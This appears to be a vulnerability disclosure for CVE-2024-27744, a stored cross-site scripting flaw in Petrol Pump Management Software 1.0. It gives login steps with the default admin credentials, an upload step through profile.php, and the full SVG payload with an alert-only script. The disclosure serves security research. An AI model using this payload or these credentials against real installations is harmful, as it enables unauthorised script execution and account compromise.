 # CVE-2024-27744:

## Description:
```Cross Site Scripting vulnerability in Petrol Pump Mangement Software v.1.0 allows an attacker to execute arbitrary code via a crafted payload to the image parameter in the profile.php component.```

## Vulnerability Type:
```Cross Site Scripting (XSS)```

## Affected Product Code Base:
```https://www.sourcecodester.com/php/17180/petrol-pump-management-software-free-download.html - 1.0```

## Affected Component:
```http://localhost/fuelflow/admin/profile.php```

## Attack Vectors:
```
1. Here we go to : http://localhost/fuelflow/index.php
2. Now login with default username=mayuri.infospace@gmail.com and Password=admin
3. Now go to "http://localhost/fuelflow/admin/profile.php"
4. Upload the xss.svg file in "Image" field
5. Stored XSS will be present in "http://localhost/fuelflow/assets/images/xss.svg" page
6. The content of xss.svg file is given below:
<?xml version="1.0" standalone="no"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">
>
<svg version="1.1" baseProfile="full" xmlns="http://www.w3.org/2000/svg">
  <polygon id="triangle" points="0,0 0,50 50,0" fill="#009900" stroke="#004400"/>
  <script type="text/javascript">
    alert("XSS by Shubham Pandey");
  </script>
</svg>
```

## Discoverer:
```Shubham Pandey```

## Reference:
```
http://www.w3.org/2000/svg
http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd
https://www.sourcecodester.com/php/17180/petrol-pump-management-software-free-download.html
```

